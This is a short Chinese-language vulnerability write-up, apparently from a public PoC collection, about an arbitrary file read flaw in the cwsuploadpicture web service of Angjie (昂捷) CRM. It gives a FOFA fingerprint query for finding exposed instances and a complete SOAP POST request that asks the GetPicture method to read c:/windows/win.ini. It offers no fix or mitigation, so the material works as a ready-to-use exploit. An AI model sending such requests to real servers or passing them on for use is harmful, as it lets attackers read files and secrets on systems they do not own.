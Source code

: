 # 昂捷CRM cwsuploadpicture存在任意文件读取漏洞

# 一、漏洞简介
昂捷CRM (Customer Relationship Management) 是深圳市昂捷信息技术股份有限公司提供的一款专注于零售行业客户关系管理的系统。旨在帮助零售企业更好地管理客户、提升客户满意度和忠诚度，从而推动业务增长，该系统集成了客户信息管理、会员营销、客户服务等多个功能模块，为零售企业提供全方位的客户关系管理解决方案。昂捷CRM cwsuploadpicture存在任意文件读取漏洞

# 二、影响版本
```plain
昂捷CRM 
```

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`body="/ClientBin/slEnjoy.App.xap"`
+ 特征

![1732852842698-06314946-c4c6-4d0b-9bae-51ed78196135.png](./img/RiIKMjX_0E9dc_82/1732852842698-06314946-c4c6-4d0b-9bae-51ed78196135-997434.png)

# 四、漏洞复现
```plain
POST /enjoyRMIS_WS/WS/Common/cwsuploadpicture.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/GetPicture"
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetPicture xmlns="http://tempuri.org/">
      <sFullFileName>c:/windows/win.ini</sFullFileName>
    </GetPicture>
  </soap:Body>
</soap:Envelope>
```

![1734600358846-57a27a23-cf9a-4b3b-8507-945c7b3d6841.png](./img/RiIKMjX_0E9dc_82/1734600358846-57a27a23-cf9a-4b3b-8507-945c7b3d6841-315491.png)



> 更新: 2024-12-20 14:53:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kyistvq4bcnt1rdb>